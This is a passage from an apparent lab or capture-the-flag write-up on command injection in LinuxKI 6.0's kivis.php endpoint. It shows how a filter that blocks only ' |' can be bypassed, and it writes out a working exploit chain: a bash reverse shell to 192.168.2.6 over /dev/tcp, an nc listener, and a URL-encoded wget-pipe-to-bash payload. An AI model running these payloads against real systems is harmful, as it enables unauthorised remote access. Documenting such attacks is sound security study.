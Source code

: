 When I start playing with the payload, then I notice that some characters are removed, and those are in the PHP code found above with the `timeline` parameter, and I can see them in the `url_filter` function returned by the `timeline` from lines 6 to 11:
```php
...
06    ';' => '',
07    '&' => '',
08    '$' => '',
09    '(' => '',
10    ')' => '',
11    ' |' => '',
...
```
But I notice that line 11 has `' |'` instead of `'|'`, thats means that its only filter the pipeline when there is a space before. When I send the payload `'|id %23'`, then the command is executed:

![evidence](./static/06-rci-id.png)

And I can verify the remote code injection vulnerability.

## Exploitation
Remote command injection and insert kernel module to get the root shell.

Given I can access the `/linuxki/experimental/vis/kivis.php` endpoint, and the `LinuxKI` version is `6.0`, and the `url_filter` function is misconfigured, and it allows using the character `'|'`, Then I can try to perform a reverse shell.
When I create a file called `rs.sh` with the code:
```shell
01  #!/bin/bash
02  bash -c  'bash -i >& /dev/tcp/192.168.2.6/1234 0>&1'
```
And I start an `HTTP` server with Python:
```shell
$ python -m http.server 8000
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I do a GET request with the following payload:
```
wget%20%20-O-%20192.168.2.6:8000/rs.sh|bash%20%23
```
Then I get the reverse shell :

